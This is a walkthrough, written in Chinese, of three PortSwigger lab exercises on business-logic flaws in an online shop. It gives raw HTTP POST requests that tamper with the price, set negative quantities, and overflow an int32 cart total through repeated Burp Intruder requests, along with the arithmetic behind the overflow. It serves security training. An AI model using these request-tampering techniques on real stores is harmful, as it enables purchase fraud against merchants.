 # Business logic vulnerabilities

## [Lab: Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)
### 題目敘述
 This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter 

### 題目解釋
竄改 POST 內容

### 解答
在加入購物車時會順便 POST 價格

```
POST /cart HTTP/1.1
Host: acd31fa31fe0b3dcc04314f500560069.web-security-academy.net
Cookie: session=IxPR6nrwBtk0VSUHVKPDmBuwG2IJVK8z
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://acd31fa31fe0b3dcc04314f500560069.web-security-academy.net
Referer: https://acd31fa31fe0b3dcc04314f500560069.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=133700
```

竄改成 1 再去購物車結帳就好ㄌ


## [Lab: High-level logic vulnerability](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level)
### 題目敘述
 This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter 

### 題目解釋
控制購買數量，可以是負的

### 解答

加到購物車後，數量的地方 改成買 -1 個

```
POST /cart HTTP/1.1
Host: ac451f941eb06c22c01c81e90025004d.web-security-academy.net
Cookie: session=B4CoFQLL3WfFvWwgwdl1rRca68KNbjPJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://ac451f941eb06c22c01c81e90025004d.web-security-academy.net
Referer: https://ac451f941eb06c22c01c81e90025004d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Te: trailers
Connection: close

productId=1&quantity=-2&redir=CART
```

但結帳時他會吐 `Cart total price cannot be less than zero `

所以再買一些普通的小東西讓價格 > 0

發現這樣不行，理論上應該反過來 (用其他商品扣錢) 才能真正買到 

最終買了 `-60` 個 `Vintage Neck Defender` 搭配 `1` 個 `Lightweight "l33t" Leather Jacket`，花了 9.8 元


## [Lab: Low-level logic flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level)
### 題目敘述
 This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
int overflow

### 解答

測了一下，一次最多可以 `+99`
可以用 Burp 的 intruder 來送，送到他 Overflow

```
POST /cart HTTP/1.1
Host: ac941ffb1fde36c1c0580d1d0037001d.web-security-academy.net
Cookie: session=mSnfLlINi2GcygY9m1mKl9lp8RbLH9vR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: https://ac941ffb1fde36c1c0580d1d0037001d.web-security-academy.net
Referer: https://ac941ffb1fde36c1c0580d1d0037001d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Te: trailers
Connection: close

productId=1&quantity=99&redir=CART&meow=§§
```

亂測了一下，他的價格是 int32，也就是超過 `2147483647` 就會變成負的

我們要買的東西是 `Lightweight "l33t" Leather Jacket`，價格是 `1337` 元

```
(2**32-1)/1337 = 3212391
np.int32(1337*3212391) = -529

3212391 // 99 = 32448
3212391 % 99 = 39
```

理論上這樣要發 32448 個 +99 的 Requests 跟一個 +39 的 Requests

但測試了一下發現被後的計算 Overflow 會把價格 * 100

也就是說其實計算要把價格用 `133700` 來算


```
(2**32-1)/133700 = 32123.91
np.int32(133700*32123) = -122196

32123 // 99 = 324
32123 % 99 = 47
```

所以要發 324 個 +99 的封包 跟一個 +46 的封包 (因為第一次買時已經 +1 ㄌ)

但真正發可能會有一些掉包的狀況發生，所以就自己湊一下讓 l33t 夾克變成 32123 個

再來湊數字，我買了 `13` 個 `98.26` 元的 `Giant Grasshopper` 以及 `32123` 個 `Lightweight "l33t" Leather Jacket` 最終花了`55.42`元


TBD